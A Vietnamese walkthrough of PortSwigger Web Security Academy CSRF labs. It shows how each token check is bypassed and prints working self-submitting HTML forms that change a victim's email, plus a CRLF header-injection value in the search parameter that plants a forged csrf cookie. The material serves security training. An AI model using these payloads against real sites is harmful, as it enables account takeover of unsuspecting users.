# Lab 01: CSRF vulnerability with no defenses
Lab yêu cầu viết HTML tấn công CSRF thay đổi email của người truy cập.  

Duyệt chức năng thay đổi email, mình phát hiện gói request đổi email có dạng như sau.  
  

Vậy để lừa người dùng, chúng ta cần tạo một form method POST, action là endpoint thay đổi email và value là giá trị email mình muốn đổi.  
```HTML
<form method="POST" action="https://0afb00fa03e42683809a12e5006b00d7.web-security-academy.net/my-account/change-email" name="csrf">
    <input type="hidden" name="email" value="test@gmail.com">
</form>
<script>document.csrf.submit()</script>
```
Sửa body và gửi cho nạn nhân.  
  

# Lab 02: CSRF where token validation depends on request method
Chức năng đổi email của lab bị lỗi CSRF, có chặn tấn công CSRF nhưng chỉ hiệu quả với vài request. Giải lab bằng cách viết HTML tấn công thay đổi email của nạn nhân.  

Gói tin thay đổi email giờ đã có thêm biến csrf.  
  

Đề có đề cập đén request method, mình thử gửi gói tin GET đến endpoint change-email xem sao.  
  

Server phản hồi thiếu trường email, vậy mình thử thêm trường email xem có đổi được không, endpoint cho phép thay đổi email mà không cần CSRF khi nhận request GET.  
  

Vậy đoạn HTML khai thác như sau.  
```html
<form method="GET" action="https://0aa200ef038611d1803b1c77005800ae.web-security-academy.net/my-account/change-email" name="csrf">
    <input type="hidden" name="email" value="test@gmail.com">
</form>
<script>document.csrf.submit()</script>
```
  

# Lab 03: CSRF where token validation depends on token being present
Chức năng đổi email của lab bị lỗi CSRF. Giải lab bằng cách viết HTML tấn công thay đổi email của nạn nhân.  

Mình check thử source code, phát hiện form update email có thuộc tính csrf kèm theo.  
  

Vậy thì mình có thể sử dụng site origin để lấy giá trị csrf vốn luôn nằm sẵn ở form không.  

Kiểm chứng giả thuyết bằng devtool, mình sẽ thử ở trang home. Mục tiêu là ở một trang khác, fetch trang /my-account lấy giá trị csrf.  
```js
let a="";
fetch('/my-account').then(data => data.text()).then(html => {
  const parser = new DOMParser();
  const doc = parser.parseFromString(html, 'text/html');
  a = doc.getElementsByName("csrf")[0].value;
})
```
  

Kết hợp và xây dựng form, bao gồm fetch kết nối đến endpoint my-account để lấy value csrf của nạn nhân.     
```html
<form method="POST" action="https://0a99008a04e6e7be85b2f0a0008c00ab.web-security-academy.net/my-account/change-email" name="csrf">
    <input type="hidden" name="email" value="test@gmail.com">
    <input type="hidden" name="csrf" value="">
</form>
<script>
let a="";
fetch('/my-account').then(data => data.text()).then(html => {
  const parser = new DOMParser();
  const doc = parser.parseFromString(html, 'text/html');
  a = doc.getElementsByName("csrf")[0].value;
  const myForm = document.forms["csrf"];
  myForm.elements["csrf"].value = a;
  myForm.submit();})
</script>
```

Gửi cho nạn nhân nhưng không có gì xảy ra, mình check log thử. Mình phát hiện rằng nạn nhân ở server exploit không có trang `/my-account`, dẫn đến việc không truy cập được để lấy value csrf.  
  

Có thể mình hiểu sai đề bài, tiêu đề là khai thác CSRF khi phụ thuộc vào sự tồn tại của token xác thực. Vậy nếu mình xóa token này thì sao. 
Thử xóa giá trị biến csrf trong gói tin. 
 

Thử xóa luôn biến csrf, khai thác thành công.  
 

Xây dựng lại payload mới, và gửi nạn nhân, hoàn thành lab. 
```html
<form method="POST" action="https://0aa6003b03a004728247741c0059001a.web-security-academy.net/my-account/change-email" name="csrf">
    <input type="hidden" name="email" value="testpayload@gmail.com">
</form>
<script>document.csrf.submit()</script>
```

# Lab 04: CSRF where token is not tied to user session
Chức năng đổi email của lab bị lỗi CSRF. Giải lab bằng cách viết HTML tấn công thay đổi email của nạn nhân. 

Tiêu đề nhắc đến việc token không liên kết với session, liệu rằng có thể sử dụng token của người này để thay email của người kia không. 

Để kiểm nghiệm, mình sẽ sử lấy token csrf từ user `wiener`, thay vào token csrf của user `carlos`. Gói tin đổi email của `wiener` như sau. 
 

Trong quá trình thử, mình phát hiện ra thêm 1 điều, khi sử dụng lại gói tin đổi email để đổi giá trị email khác, mình bị báo lỗi Invalid CSRF. 
 

Đồng thời, mỗi khi tải lại trang, token bị thay mới hoàn toàn. Vậy nếu mình lấy 1 token, tải lại trang thì còn sử dụng được token đó không. 

Token cũ `1XaymsCD0L1A1rHTwV0Ht8UMJLxiENDC`. 

Token mới `U3ArwNKN5RGQ8AzoSY1RacnoT1XYQEKp`. 
 

Thử gửi và thành công. 
 

Dựa trên hành vi, mình đoán là server có list các token csrf chưa sử dụng, và mỗi lần người dùng gửi yêu cầu, sẽ gửi 1 trong số chúng. Vậy rất có khả năng có thể sử dụng những token chưa sử dụng này để khai thác, thay đổi email của người dùng khác. 

Khai thác tương tự, ta F5 trang vài lần để lấy token mới, sau đó thêm vào payload của nạn nhân. Payload sẽ như sau. 
```html
<form method="POST" action="https://0afb00a504ecadbe809103cb00f90031.web-security-academy.net/my-account/change-email" name="csrf">
    <input type="hidden" name="email" value="testpayload@gmail.com">
    <input type="hidden" name="csrf" value="Yu85qjrSXygpS8vVeiIlzQKTx0ZHHyui">
</form>
<script>document.csrf.submit()</script>
```

# Lab 05: CSRF where token is duplicated in cookie
Chức năng đổi email của lab bị lỗi CSRF, cụ thể là gửi 2 lần token CSRF, 1 trong cookie và 1 trong body. Giải lab bằng cách viết HTML tấn công thay đổi email của nạn nhân. 

Gói tin yêu cầu đổi email như sau. 
 

Mình nhận thấy có token trong cookie, thử vào devtool nhập document.cookie xem có lấy được cookie không, kết quả trả về rỗng. 
 

Vẫn còn 1 endpoint nữa chưa khai thác là `/search.`. 
 

Mình nhận ra trong phản hồi có trường Set-Cookie ánh xạ giá trị trong biến HTTP GET `search`. 
 

Mình lợi dụng điều này, thêm set-cookie csrf.  
`test%0D%0ASet-Cookie:+csrf%3dtest%3b+SameSite%3dNone`  
  

Mình đã có thể hoàn toàn thao túng được token csrf. Trước khi gửi payload, mình cần gửi yêu cầu tới `/search` trước nhằm set cookie theo ý muốn, gửi bằng ``.  

```html
<form method="POST" action="https://0a0700aa030153d680d31c8900480062.web-security-academy.net/my-account/change-email" name="csrf">
    <input type="hidden" name="email" value="testpayload@gmail.com">
    <input type="hidden" name="csrf" value="test">
</form>

```

# CSRF where token is tied to non-session cookie
Lỗi nằm trong chức năng đổi email, và token nằm trong non-session cookie.  

Gói tin sẽ có 1 csrf token.  
  

Tuy nhiên khi gửi yêu cầu đổi mail, thì csrf token ở cookie lại khác csrf token ở form.  
  

Thử swap vị trí, copy token csrf ở form với ở trên với ở dưới nhưng bị lỗi `Invalid`, có thể mỗi token sẽ đảm nhận 1 task khác nhau.  

Phát hiện trường search trong `/search` ánh xạ kết quả tìm kiếm vào trong `Set-Cookie:` header.  
  

Thực hiện khai thác tương tự như lab trên, chèn thêm header `Set-Cookie:`.  
  

Phát hiện nếu mình xóa session cookie, thì lại không báo lỗi.  

Thử đăng nhập với tài khoản thứ hai, mình phát hiện rằng ở `/change-email`, giá trị `csrfKey` và `csrf` đều giống với của tài khoản thứ nhất, chỉ thay đổi mỗi session cookie. Có lẽ, việc trùng khớp cũng ở các tài khoản khác.  

Vậy nếu mình set-cookie thành csrfKey trùng, và csrf trùng ở form thì sao.    
```html
<form method="POST" action="https://0aaf005f0410467f80503a870095000a.web-security-academy.net/my-account/change-email" name="csrf">
    <input type="hidden" name="email" value="testpayload@gmail.com">
    <input type="hidden" name="csrf" value="rtYQuYlVTjp1KmT8RMc97lJpnF9XwPhP">
</form>

```

